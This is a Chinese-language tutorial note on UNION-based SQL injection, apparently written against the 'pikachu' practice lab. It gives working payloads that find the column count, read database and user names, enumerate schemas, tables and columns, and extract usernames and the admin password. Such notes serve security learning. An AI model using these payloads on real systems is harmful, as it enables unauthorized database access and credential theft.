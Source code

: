 # union联合查询

## 一、原理

union联合查询，是调用数据库中的union语句进行复杂信息的查询，若程序没有对union进行过滤，则会泄露大量的信息，造成极大的危害。

## 二、应用

### sql语句

```
select username,password from usr where id=1 union select 字段1，字段
2 from 表
```

注意，union查询的字段数应该与前文保持一致，否则会报错

### 字段数查询

查询字段的数量需要使用order by函数使用二分法进行查询

拿前文中的字符型注入为例

```
payload:lll'order by 4#
```

经过测试，查询得到为两个字段

### 使用union

使用union进行查询，本次查询数据库和用户

```
payload：lll' union select database(),user()#
```

同理也可以查询版本version()

## 三、逐层查询

### 1、查数据库

```
union select 1，database()#

查询所有数据库
union select 1，group_concat(schema_name) from information_schema.schemata #
```

***group_concat函数可以将多个字符连接成一个字符。***

### 2.查表名

```
union select 1,table_name from information_schema.tables where table_schema= 'pikachu' limit 0,1#

pikachu也可以使用database()
```

### 3.查字段名

```
union select 1,column_name from information_schema.columns where table_name= 'users'
 limit 0,1#
```

### 4.查数据名

```
union select 1,username from users limit 0,1#


union select 1,password from users where username='admin' limit 0,1#
```

